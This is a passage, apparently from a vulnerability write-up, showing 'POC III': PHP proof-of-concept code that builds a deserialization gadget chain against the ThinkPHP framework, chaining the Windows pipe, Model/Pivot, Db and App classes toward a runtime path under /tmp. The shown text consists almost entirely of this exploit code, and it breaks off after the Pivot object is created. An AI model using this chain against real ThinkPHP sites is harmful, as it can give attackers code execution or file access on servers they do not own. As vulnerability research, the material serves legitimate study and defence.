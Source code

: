 ```php
}
```

#### POC III
```php
<?php
namespace think\process\pipes{
    class Windows{
        public function __construct($s){
            $this->files = array($s);
        }
    }

}

namespace think\model\concern{
    trait Conversion{
        protected $append = array("key" => array('name' => 'name_value'));
    }

    trait Attribute{
        private $data = []; 
        function __construct(){
            $this->data = array("key" => new \think\Db()); //key 与上面$append那个key保持相同
        }
    }
}

namespace think{
    abstract class Model{
        use model\concern\Conversion;
        use model\concern\Attribute;
    }

    class App{
        protected $runtimePath;
        public function __construct(string $rootPath = ''){
            $this->rootPath = $rootPath;
            $this->runtimePath = "/tmp/test/test";
            $this->route = new \think\route\RuleName();
        }
    }

    class Db{
        protected $connection;
        protected $config = ['query' => '\think\Url'];
        function __construct(){
            $this->connection = new App();
        }
    }
}

namespace think\model{
    use think\Model;
    class Pivot extends Model{

    }

}

namespace{
    require __DIR__ . '/vendor/autoload.php';
    $string = new think\model\Pivot();
```